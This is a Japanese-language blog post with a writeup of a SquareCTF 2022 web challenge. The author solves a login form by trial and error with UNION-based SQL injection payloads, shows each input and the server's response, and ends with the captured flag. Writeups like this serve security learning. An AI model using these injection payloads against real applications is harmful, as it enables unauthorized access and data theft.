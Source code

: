 ```yaml
---
title: "SquaareCTF 2022 Writeup"
date: 2022-11-20T15:00:00+09:00
lastmod: 2022-11-20T15:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">
<img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!"> <b><font color="teal">Save The Earth! - 地球環境を守ろう！</font></b> <img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!">
<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fsquarectf_2022%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://2022.squarectf.com/challenges](https://2022.squarectf.com/challenges)
<br /><br />

（最近、ちょくちょくCTFイベントに参加しているんですが、全然解けない事が多いです。。。全体的に難易度あがってません？？）

<br>
えーっと、50点のチャレンジ2つと、Sanity Checkを1問解いただけです。

101点を獲得し、最終順位は250位でした。<br />

<img src="https://captureamerica.github.io/writeups/img/squarectf_2022_score.png" alt="squarectf_2022_score.png">

<br><br>

とりあえず、記念に一個だけ、writeupを残しておきます。



<br /><br />
<br /><br />
## [Web]: Alex Hanlon Has The Flag! (50 points)
- - -
### Challenge
> Alex Hanlon has saved the flag in his account! See if you can figure out his username and then login as him. But just know that it will be impossible to brute force his password.
<br /><br />
[http://chals.2022.squarectf.com:4102](http://chals.2022.squarectf.com:4102)

<br>

### Solution
UsernameとPasswordが入力できるログインフォームが表示されます。

<br />
Usernameに`alex`、PasswordにテキトーなSQLiのパターンを入れたときに、
<pre>
Sorry, admin is the wrong user
</pre>
というエラーが返ります。`admin`なんて入力してないのに。。

<br />

実は、次に出てくるチャレンジ「Going In Blind」のDescriptionに、`Ok, the developers got smart, and figured out a way to prevent SQLi in the login page. Plus, they decided the flag shouldn't be hardcoded in the web application anymore. ` という記載があって、それもヒントになってますね。

おそらく、内部的に以下のようになっているっぽいです。
<pre>
SELECT * FROM user WHERE username = 'admin' and PASSWORD = '$password'
</pre>

<br /><br />
ここからはトライ＆エラーです。

入力値：
<pre>
' union select 1, schema_name, 3 from information_schema.schemata;-- -
</pre>

結果：
<pre>
java.sql.SQLException: The used SELECT statements have a different number of columns
</pre>

<br /><br />

入力値：
<pre>
' union select schema_name from information_schema.schemata;-- -
</pre>

結果：
<pre>
Sorry, information_schema is the wrong user
</pre>

<br /><br />


入力値：（テーブル名とカラム名は完全なGuessです）
<pre>
' union select username from user where id = 1;-- -
</pre>

結果：
<pre>
java.sql.SQLSyntaxErrorException: Unknown column 'id' in 'where clause'
</pre>

<br /><br />



入力値：
<pre>
' union select username from user where username like 'al%';-- -
</pre>

結果：
<pre>
Nope, try again!
</pre>

<br /><br />


入力値：
<pre>
' union select username from user where username <> 'admin';-- -
</pre>

結果：
<pre>
flag{470bbbc0519e4bc6987bb00bef24a97a}
</pre>

<br /><br />



Flag: `flag{470bbbc0519e4bc6987bb00bef24a97a}`


<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />